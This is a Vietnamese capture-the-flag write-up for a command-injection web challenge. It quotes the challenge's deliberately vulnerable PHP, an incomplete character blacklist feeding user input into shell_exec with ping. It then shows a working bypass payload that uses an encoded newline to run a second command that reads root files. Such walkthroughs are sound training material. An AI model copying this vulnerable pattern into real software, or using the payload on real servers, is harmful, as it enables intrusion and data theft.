 # Command Injection

**Tên challenge:** Ping 0x01

**Link challenge:** [Here](https://battle.cookiearena.org/challenges/web/ping-0x01)

**Tác giả challenge:** MEME

**Mục tiêu challenge:** Please just input your IP and get the result. However, we removed some special characters to fix the command injection. Could you bypass it?

Flag Location: `/flag.txt`

Flag Format: `CHH{XXX}`

**Tác giả Writeup:** Shino

---

# Bài giải

**B1:** Đầu tiên, giao diện Website chỉ có 1 chức năng ping như sau:

![alt text](./images/image.png)

**B2:** Ta thử nhập input `google.com`

![alt text](./images/image-1.png)

=> Trang Web đang thực hiện cú pháp `ping` đến địa chỉ input của người dùng.

**B3:** Ta đọc Source Code mà Challenge cung cấp, ta biết được Challenge đã filter vài ký tự trong Command và lệnh input của người dùng được truyền thẳng vào lệnh `ping` sau khi đã filter:
```
$substitutions = array(
    '&'  => '',
    ';'  => '',
    '|' => '',
    '-'  => '',
    '$'  => '',
    '('  => '',
    ')'  => '',
    '`'  => '',
    '||' => '',
);
$target = str_replace( array_keys( $substitutions ), $substitutions, $target );
$cmd = shell_exec( 'ping -c 4 ' . $target );
```

Tuy Challenge đã Filter gần hết các ký tự dùng để nối dài câu Command nhưng đã quên filter nốt `%0a` ( `\n` ) và nhờ đó ta có thể lợi dụng nó để nối dài câu Command.

**B4:** Ta thử nhập payload sau để lấy `Flag`:
```
google.com%0acat /*
```

![alt text](./images/image-3.png)

=> Ta đã thành công đọc được `Flag`.